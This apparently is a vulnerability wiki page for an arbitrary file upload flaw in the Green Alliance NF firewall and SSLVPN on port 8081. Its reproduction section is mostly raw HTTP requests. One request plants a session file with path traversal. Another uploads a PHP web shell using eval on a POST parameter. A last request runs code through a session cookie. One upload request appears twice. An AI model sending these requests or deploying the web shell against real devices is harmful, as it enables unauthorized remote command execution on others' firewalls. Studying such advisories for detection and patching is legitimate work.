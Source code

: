 # Green Alliance NF next-generation firewall any file upload vulnerability

## Vulnerability Description

Green Alliance SSLVPN has a vulnerability to upload any file. The attacker can obtain server permissions by sending special request packets and perform remote command execution.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Green Alliance SSLVPN </span>

## Network surveying and mapping



## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658884417477-a47362c4-646d-464e-a094-9e36a53165d6.png)

The port with the vulnerability is 8081

```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=1d52ba2a11ad8a915eddab1a0e85acd9
Host: 

--1d52ba2a11ad8a915eddab1a0e85acd9
Content-Disposition: form-data; name="file"; filename="sess_82c13f359d0dd8f51c29d658a9c8ac71"

lang|s:52:"../../../../../../../../../../../../../../../../tmp/";

--1d52ba2a11ad8a915eddab1a0e85acd9--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20230812085235711.png)

```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20230812085349551.png)



```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1684385511983-b0ced531-df95-4ca9-a34f-f0704fe7e98d.png)

```python
POST /mail/include/header_main.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID_NF=82c13f359d0dd8f51c29d658a9c8ac71
Host:

cmd=phpinfo();
```